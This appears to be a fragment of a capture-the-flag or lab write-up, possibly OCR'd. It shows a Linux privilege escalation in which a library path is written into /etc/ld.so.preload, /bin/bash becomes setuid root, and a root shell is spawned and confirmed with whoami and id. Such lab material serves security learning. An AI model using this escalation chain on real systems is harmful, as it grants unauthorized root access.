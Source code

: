 `nano ld.so.preload`

```bash
P6 1 1 1
/tmp/exp2.so
```

![image.png](image.png)

```bash
beth@london:~$ ping -c 1 127.0.0.1
ERROR: ld.so: object 'P6' from /etc/ld.so.preload cannot be preloaded (cannot open shared object file): ignored.
ERROR: ld.so: object '1' from /etc/ld.so.preload cannot be preloaded (cannot open shared object file): ignored.
ERROR: ld.so: object '1' from /etc/ld.so.preload cannot be preloaded (cannot open shared object file): ignored.
ERROR: ld.so: object '1' from /etc/ld.so.preload cannot be preloaded (cannot open shared object file): ignored.
PING 127.0.0.1 (127.0.0.1) 56(84) bytes of data.
64 bytes from 127.0.0.1: icmp_seq=1 ttl=64 time=0.021 ms

--- 127.0.0.1 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 0.021/0.021/0.021/0.000 ms
beth@london:~$ ls -la /bin/bash
-rwsr-sr-x 1 root root 1113504 Jun  6  2019 /bin/bash
beth@london:~$ /bin/bash -p
bash-4.4# python3 -c 'import os;import pty;os.setuid(0);os.setgid(0);pty.spawn("/bin/bash");'
root@london:~# whoami
root
root@london:~# id
uid=0(root) gid=0(root) groups=0(root),1000(beth)
root@london:~# 

```

